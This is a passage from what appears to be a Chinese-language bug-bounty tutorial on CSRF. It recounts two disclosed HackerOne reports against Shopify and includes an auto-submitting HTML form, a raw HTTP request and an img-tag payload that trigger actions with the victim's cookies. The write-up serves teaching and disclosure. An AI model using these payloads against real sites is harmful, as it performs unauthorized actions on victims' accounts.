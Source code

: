 Shopify 的 API 提供了一个终端，用于导出已安装用户的列表，通过上面给出的 URL。在站点能够调用该终端，并且读取信息的地方存在漏洞，因为 Shopify 在该调用中并没有包含任何 CSRF Token 验证。所以，下面的 HTML 代码可以用于代表任何未知受害者提交表单。

```html
<html> 
    <head><title>csrf</title></head> 
    <body onLoad="document.forms[0].submit()"> 
        <form action="https://app.shopify.com/services/partners/api_clients/1105664/\ export_installed_users" method="GET"> 
        </form>
    </body> 
</html>
```

这里，通过仅仅浏览站点，JavaScript 就会提交表单，它实际上包含 Shopify API 的 GET 请求，使用受害者的浏览器，并提供 Shopify 的 Cookie。

> 重要结论

> 扩展你的攻击领域，并从站点转向它的 API 终端。API 提供了极大的漏洞可能性，所以最好牢记他，尤其是当你知道 API 可能开发完毕，或者在站点实际开发之后可用的时候。

### 2\. Shopify Twitter 断开连接

难度：低

URL：`https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect`

报告链接：`https://hackerone.com/reports/111216`

报告日期：2016.1.17

奖金：$500

描述：

Shopify 提供了 Twitter 的继承，来允许店主转推它们的商品。与之相似，也提供了功能来断开推特账户和被连接商店的链接。

断开 Twitter 账户的 URL 卸载了上面。当进行调用时，Shopify 不验证 CSRf Token，这可能会允许恶意人员代表受害者进行 GET 调用，因此断开受害者的商店与 Twitter 的连接。

在提供这份报告的时候，WeSecureApp 提供了下面的漏洞请求示例 - 要注意下面的`img`标签的使用，它对漏洞 URL 进行调用：


```
GET /auth/twitter/disconnect HTTP/1.1 
Host: twitter-commerce.shopifyapps.com 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:43.0) Gecko/2010010\ 1 Firefox/43.0 
Accept: text/html, application/xhtml+xml, application/xml 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://twitter-commerce.shopifyapps.com/account 
Cookie: _twitter-commerce_session=REDACTED 
Connection: keep-alive
```

由于浏览器进行 GET 请求来获取给定 URL 处的图片，并且不验证任何 CSRF Token ，用户的商店现在已断开连接：

```html
<html> 
    <body> 
        <img src="https://twitter-commerce.shopifyapps.com/auth/twitter/disconnect"> 
    </body> 
</html>
```
